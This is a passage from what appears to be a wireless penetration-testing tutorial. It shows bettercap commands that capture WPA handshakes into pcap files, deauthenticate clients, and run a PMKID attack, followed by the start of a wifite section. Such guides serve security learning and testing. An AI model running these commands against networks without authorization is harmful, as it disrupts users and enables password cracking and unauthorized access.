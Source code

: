 ```
set net.sniff.verbose true
```

```
set net.sniff.output (SSID).pcap
```

```
set net.sniff on
```

```
events.stream on
```

At this point we can again, simply wait for a device to connect to the network to obtain the handshake, or we may deauthenticate the network.

```
wifi.deauth (BSSID)
```

Once we obtain the handshake, we will see the notification in our event stream

### PMKID

The PMKID method is much simpler method. Just like before, we find our interface, enable monitor mode, start bettercap with that interface.

We begin scanning for networks

```
wifi.recon on
```

We can also show the WiFi Manufacturer of the AP

```
set wifi.show.manufacturer true
```

```
wifi.show
```

To start the PMKID attack we simply run

```
wifi.assoc (BSSID)
```

Once we have successfully received the RSN frame containing PMKID and it has been saved in a pcap format

## Wifite

Specify a wireless interface with

```
sudo wifite -i wlan0
```
